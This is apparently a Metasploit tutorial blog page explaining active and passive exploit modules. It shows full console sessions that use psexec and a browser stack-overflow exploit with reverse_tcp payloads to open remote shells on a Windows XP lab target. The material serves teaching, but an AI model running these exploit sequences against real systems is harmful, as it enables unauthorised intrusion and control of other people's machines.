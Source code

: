 ```yaml
---
draft: false
title: Exploit Types in Metasploit Framework
date: 2017-05-13T12:34:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Within the Metasploit Framework, all exploit modules are grouped as active and passive.
url: /msf-exploit-types/
featured_image: /images/metasploit.jpg
weight: 60
translationKey: msf-exploit-types
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit framework
linkTitle: Exploit Types
keywords:
  - exploit
---
```


Within the Metasploit Framework, all exploit modules are grouped as **active** and **passive**.

## Active Exploit

Active exploits will run on a specific target and continue to run until the process is completed. They stop running when they encounter any error.

For example, the Brute-force module runs until a shell command line is opened on the target computer and stops when it is finished. Since their processes can take a long time to complete, they can be sent to the background using the `-j` parameter.

In the example below, you can see that the ms08_067_netapi exploit is started and sent to the background.

```bash
msf exploit(ms08_067_netapi) > exploit -j
> Exploit running as background job.
msf exploit(ms08_067_netapi) >
```

## Active Exploit Example

In this example, a target computer (192.168.1.100) whose information was obtained through prior discovery is shown setting the necessary variables and starting to work. The psexec exploit and the reverse_tcp payload module are used to open a shell on the target computer.

```bash
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.100
RHOST => 192.168.1.100
msf exploit(psexec) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(psexec) > set LPORT 4444
LPORT => 4444
msf exploit(psexec) > set SMBUSER victim
SMBUSER => victim
msf exploit(psexec) > set SMBPASS s3cr3t
SMBPASS => s3cr3t
msf exploit(psexec) > exploit

> Connecting to the server...
> Started reverse handler
> Authenticating as user 'victim'...
> Uploading payload...
> Created \hikmEeEM.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service (ciWyCVEp - "MXAVZsCqfRtZwScLdexnD")...
> Closing service handle...
> Opening service...
> Starting the service...
>Removing the service...
> Closing service handle...
> Deleting \hikmEeEM.exe...
> Sending stage (240 bytes)
> Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.100:1073)

Microsoft Windows XP **[**Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## Passive Exploit

Passive Exploits run passively on the local computer (our own computer) and remain listening. They wait for the target computer to somehow connect to the local computer.

Passive exploits almost always focus on clients such as Web browsers, FTP, etc. They can also be used in connections from files sent via e-mail. When a passive exploit runs, it starts waiting. When a user clicks on a link on the site or performs an action, that's when the passive exploit in the listening receives the signal and opens a **shell** on the target.

You can see the list of exploits running in the background and listening by giving the `-l` parameter to the `sessions` command. You can use the `-i` parameter to go to the desired `ID` numbered process from the list.

```bash
msf exploit(ani_loadimage_chunksize) > sessions -l

Active sessions
**================**

Id Description Tunnel
-- ----------- ------
1 Meterpreter 192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit(ani_loadimage_chunksize) > sessions -i 1
> Starting interaction with 1...

meterpreter >
```

## Passive Exploit Example

In the example below, a user is expected to enter a Web page using the loadimage_chunksize exploit and reverse_tcp payload. The `LHOST` variable indicates the IP address of the computer that will listen locally, and the `LPORT` indicates the port number that will listen on the local computer.

```bash
msf > use exploit/windows/browser/ani_loadimage_chunksize
msf exploit(ani_loadimage_chunksize) > set URIPATH /
URIPATH => /
msf exploit(ani_loadimage_chunksize) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(ani_loadimage_chunksize) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(ani_loadimage_chunksize) > set LPORT 4444
LPORT => 4444
msf exploit(ani_loadimage_chunksize) > exploit
> Exploit running as background job.

> Started reverse handler
> Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
> Local IP: <a href="http://192.168.1.5:8080/">http://192.168.1.5:8080/</a>
> Server started.
msf exploit(ani_loadimage_chunksize) >
> Attempting to exploit ani_loadimage_chunksize
> Sending HTML page to 192.168.1.100:1077...
> Attempting to exploit ani_loadimage_chunksize
> Sending Windows ANI LoadAniIcon**()** Chunk Size Stack Overflow (HTTP) to 192.168.1.100:1077...
> Sending stage (240 bytes)
> Command shell session 2 opened (192.168.1.5:4444 -> 192.168.1.100:1078)

msf exploit(ani_loadimage_chunksize) > sessions -i 2
> Starting interaction with 2...

Microsoft Windows XP **[**Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```

You can send us other topics you want to be explained.

## Video Anlatım

{{< youtube liQEKnvzhQE >}}

